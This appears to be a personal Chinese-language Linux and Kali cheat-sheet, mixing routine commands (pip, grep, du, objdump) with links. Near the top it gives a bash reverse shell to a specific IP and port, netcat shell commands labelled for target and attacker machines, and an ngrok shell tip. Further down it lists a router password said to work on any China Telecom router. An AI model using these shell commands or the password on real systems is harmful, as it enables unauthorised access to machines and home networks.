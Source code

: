### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名


echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *

或

ls -l -h

或

ls -lht

### kali linux 调整 sda1 大小 

用GPart 


linux pwd命令 查看路径，查看当期路径在系统路径位置


### windows环境下python3安装Crypto

https://blog.csdn.net/five3/article/details/86160683

https://forum.90sec.org/   90sec 论坛


nE7jA%5m 就是这个密码 只要是电信设备路由器都可以试试，百试百灵



https://www.acgbk2.com/  acg宝库永久 https://acgbk.vip/



https://zxso.net/tool/shorturl.php   免注册短网址生成



http://ip.bczs.net/country/CN   全球ip 数据库



https://www.0xnull.org/   0xnull,  技术网站

### 反编译 linux 里的 ELF 文件

objdump -S a > a.S
